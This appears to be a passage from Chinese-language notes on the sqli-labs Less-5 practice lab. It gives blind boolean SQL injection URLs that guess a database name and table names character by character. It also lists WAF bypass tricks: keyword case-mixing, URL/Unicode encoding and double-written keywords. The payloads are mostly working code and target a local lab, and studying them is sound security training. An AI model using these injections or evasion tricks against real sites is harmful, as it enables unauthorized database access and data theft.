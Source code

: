 ```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and length(database())=8--+ #页面正常
```

​	

## 猜解数据库名

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ #页面正常
```

​	

## 猜解表名

```mysql
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ #页面正确
```

​	

​	

# SQL注入—WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`

![image.png](https://pic.imgdb.cn/item/64c5f2481ddac507cc26529e.jpg)

## 关键词大小写绕过

有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用一点来进行绕过

```sql
union select ---> unIOn SeLEcT
```

## 编码绕过

针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等

```sql
union select 1,2,3# ---> union%0aselect 1\u002c2,3%23
```

## 双写绕过

部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，可以通过双写来进行绕过

```sql
UNIunionON

SELselectECT

anandd
```
